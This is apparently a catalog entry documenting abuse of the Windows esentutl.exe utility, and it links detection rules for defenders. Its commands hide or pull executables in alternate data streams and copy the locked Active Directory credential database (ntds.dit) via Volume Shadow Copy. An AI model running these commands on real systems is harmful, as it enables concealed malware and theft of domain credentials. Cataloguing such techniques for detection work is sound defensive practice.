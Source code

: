 ```yaml
---
Name: Esentutl.exe
Description: Binary for working with Microsoft Joint Engine Technology (JET) database
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: esentutl.exe /y {PATH_ABSOLUTE:.source.vbs} /d {PATH_ABSOLUTE:.dest.vbs} /o
    Description: Copies the source VBS file to the destination VBS file.
    Usecase: Copies files from A to B
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y {PATH_ABSOLUTE:.exe} /d {PATH_ABSOLUTE}:file.exe /o
    Description: Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y {PATH_ABSOLUTE}:file.exe /d {PATH_ABSOLUTE:.exe} /o
    Description: Copies the source Alternate Data Stream (ADS) to the destination EXE.
    Usecase: Extract hidden file within alternate data streams
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y {PATH_SMB:.exe} /d {PATH_ABSOLUTE}:file.exe /o
    Description: Copies the remote source EXE to the destination Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y {PATH_SMB:.source.exe} /d {PATH_SMB:.dest.exe} /o
    Description: Copies the source EXE to the destination EXE file
    Usecase: Use to copy files from one unc path to another
    Category: Download
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d {PATH_ABSOLUTE:.dit}
    Description: Copies a (locked) file using Volume Shadow Copy
    Usecase: Copy/extract a locked file such as the AD Database
    Category: Copy
    Privileges: Admin
    MitreID: T1003.003
    OperatingSystem: Windows 10, Windows 11, Windows 2016 Server, Windows 2019 Server
Full_Path:
  - Path: C:\Windows\System32\esentutl.exe
  - Path: C:\Windows\SysWOW64\esentutl.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_esentutl_params.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_esentutl_webcache.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/registry/registry_event/registry_event_esentutl_volume_shadow_copy_service_keys.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_esentutl_sensitive_file_copy.yml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/esentutl_sam_copy.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f6421d8c534f295518a2c945f530e8afc4c8ad1b/rules/windows/credential_access_copy_ntds_sam_volshadowcp_cmdline.toml
Resources:
  - Link: https://twitter.com/egre55/status/985994639202283520
  - Link: https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/
  - Link: https://twitter.com/bohops/status/1094810861095534592
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Mike Cary
    Handle: '@grayfold3d'
---
```

